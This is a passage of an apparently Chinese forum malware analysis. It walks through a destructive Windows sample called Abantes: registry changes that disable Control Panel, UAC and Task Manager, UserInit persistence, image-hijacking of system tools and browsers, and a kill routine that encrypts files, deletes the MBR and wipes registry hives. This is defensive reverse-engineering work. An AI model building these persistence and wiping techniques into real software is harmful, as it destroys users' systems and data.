接下来通过修改注册表的方式禁用控制面板：

`registryKey6.SetValue("NoControlPanel", "1");`

通过将 `AutoRestartShell` 设置为 `0`，达到禁用自动重新启动 Windows Shell（如 `Explorer.exe`）。

将自身放到 `UserINIT` 达到开机自启动。

关闭 UAC：

`"SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA"`

禁用任务管理器。

接下来通过映像劫持禁止下面的这些程序启动：

- `regedit.exe`：Windows注册表编辑器，用于查看和修改系统注册表。
- `notepad.exe`：记事本程序，允许用户编辑纯文本文件。
- `HelpPane.exe`：Windows帮助程序，提供操作系统的帮助和支持文档。
- `calc.exe`：Windows计算器应用程序，提供基本的数学计算功能。
- `mspaint.exe`：Windows画图工具，用于简单的图像编辑。
- `DVDMaker.exe`：Windows DVD制作工具，用于将视频文件刻录到DVD。
- `wmplayer.exe`：Windows Media Player，媒体播放器，用于播放音频和视频文件。
- `wordpad.exe`：Windows自带的文字处理软件，支持基本的文本格式化。
- `SnippingTool.exe`：截图工具，用于截取屏幕截图。
- `WindowsAnytimeUpgradeui.exe`：Windows Anytime Upgrade，允许用户升级Windows版本。
- `WindowsAnytimeUpgrade.exe`：同上，用于Windows版本升级。
- `StikyNot.exe`：Windows便签程序，允许用户创建简单的文本便签。
- `ehshell.exe`：Windows Media Center主程序，提供数字电视、视频播放等功能。
- `xpsrchvw.exe`：XPS查看器，用于查看XPS文档（Microsoft的XML Paper Specification）。
- `mstsc.exe`：远程桌面连接，允许用户通过网络连接到远程计算机。
- `chrome.exe`：Google Chrome浏览器，提供网页浏览功能。
- `opera.exe`：Opera浏览器，提供网页浏览功能。
- `firefox.exe`：Mozilla Firefox浏览器，提供网页浏览功能。
- `iexplore.exe`：Internet Explorer浏览器，微软的网页浏览器（虽然已被Edge取代，但仍在某些系统中存在）。
- `MicrosoftEdgeCP.exe`：Microsoft Edge浏览器的后台进程，用于支持浏览器的各种功能。
- `MicrosoftEdge.exe`：Microsoft Edge浏览器，用于网页浏览。
- `resmon.exe`：资源监视器，用于查看系统资源的使用情况，如CPU、内存、磁盘等。
- `procexp.exe`：Process Explorer，Microsoft提供的一个强大的进程查看和管理工具。
- `procexp64.exe`：64位版本的Process Explorer。
- `mmc.exe`：Microsoft Management Console（微软管理控制台），用于提供管理工具和服务的界面，管理员可以通过它访问和使用多种系统管理工具。



附件：`{07860913-D9BC-4B4B-B209-A2268364543B}.png` (334.84 KB, 下载次数: 0) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU3OHwwMDFiMDVjY3wxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 15:00

接下来将所有的鼠标指针改为 `Abantes.Resources.creepy mouse.cur`。



附件：`{6FE6F812-CFFA-4B23-968F-1A228BC2863B}.png` (173.48 KB, 下载次数: 1) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU3OXw1OTcwNjBjMnwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 15:00

隐藏磁盘驱动器。



附件：`{A95262B4-467E-4B96-97BC-F897B248DF52}.png` (174.65 KB, 下载次数: 0) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU4MHxmZDQxMzNjMXwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 15:01

启动 `Action.bat`。



附件：`image.png` (36.52 KB, 下载次数: 1) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU4MXw2NmE4M2RhM3wxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 15:02

创建计划任务然后注销。



附件：`{8F4DDDDD-1CF6-4FEF-B893-1071C0C837DF}.png` (222.27 KB, 下载次数: 0) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU4Mnw0OWRkMTA1N3wxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 15:02

当重新登录系统时，启动 2 个线程和 `rules` 窗口。



附件：`{BFDEBDAD-759D-467E-8AB2-21B26599D124}.png` (77.36 KB, 下载次数: 0) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU4NXxlMjUzNGM4OXwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 15:03

第一个线程是特效。  
第二个线程用于检测异常。



附件：`{FCAE4605-C0ED-483E-A1BB-CDB3AEEDB28A}.png` (118.5 KB, 下载次数: 0) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU4Nnw2N2EyMWM2N3wxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 15:04

以下进程必须处于运行状态：

- `"Rules.exe"`

这些文件必须存在：

- `"C:\\Windows\\Defender\\Rules.exe"`
- `"C:\\Windows\\Defender\\Abantes.exe"`
- `"C:\\Windows\\Defender\\Payloads.dll"`
- `"C:\\Windows\\Defender\\IFEO.exe"`



附件：`{0B86F16A-3691-4147-9C5E-56AD00DB9BED}.png` (110.01 KB, 下载次数: 1) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU4N3w1ZWM4MzUyZXwxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 15:07

如果发现异常，例如检测用户打开了以下程序：

- `msconfig`：系统配置工具，用于管理 Windows 启动过程中的各项设置。可以启用或禁用启动项、服务和系统配置，帮助诊断和优化启动速度。
- `taskmgr`：任务管理器，用于查看和管理正在运行的进程、应用程序、服务以及系统的资源使用情况（如 CPU、内存、磁盘、网络等）。还可以结束不响应的进程或程序。
- `cmd`：命令提示符，提供了一个命令行界面，用于运行各种命令和脚本。它允许用户与操作系统进行交互，执行管理任务和诊断工具。
- `taskschd`：任务调度程序，用于安排和管理自动执行的任务。可以设置特定的任务在指定的时间自动运行，例如备份文件、更新系统等。
- `mmc`：微软管理控制台，一个框架应用程序，可以加载各种管理工具，如计算机管理、事件查看器、组策略编辑器等。它为系统管理员提供了集中管理和配置的界面。
- `resmon`：资源监视器，用于查看系统资源的使用情况，包括 CPU、内存、磁盘、网络等。它帮助用户了解当前哪些进程或服务占用了系统资源，有助于排除性能瓶颈。

注：这些程序是 Windows 操作系统中的常用工具，用于系统管理、任务管理和配置。

或者文件丢失，又或者 `Rules.exe` 被关闭，就会启动 `Destructive.KillPC();`。



附件：`{D83958E9-62F9-424D-AE6B-70645C594D43}.png` (148.33 KB, 下载次数: 1) · 下载：[下载附件](https://www.52pojie.cn/forum.php?mod=attachment&aid=MjcwOTU4OHxiNTcxZTA4Y3wxNzkzNTc2ODQzfDE2ODA4NnwxOTQ1NTgw&nothumb=yes) · 上传时间：2024-7-19 15:08

以上内容分别是：

- 加密用户文件
- 覆盖 `LogonUI`
- 修改 `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon` 中的 `Shell` 和 `UserInit`，达到无法启动 `explorer` 而是启动前面提到的 `C:\Windows\Defender\LogonUIStart.exe`
- 删除 MBR
- 删除 `HKEY_CLASSES_ROOT`、`HKEY_CURRENT_USER`、`HKEY_LOCAL_MACHINE`、`HKEY_CURRENT_CONFIG` 中的所有数据
- 一键结束系统所有进程
- 蓝屏
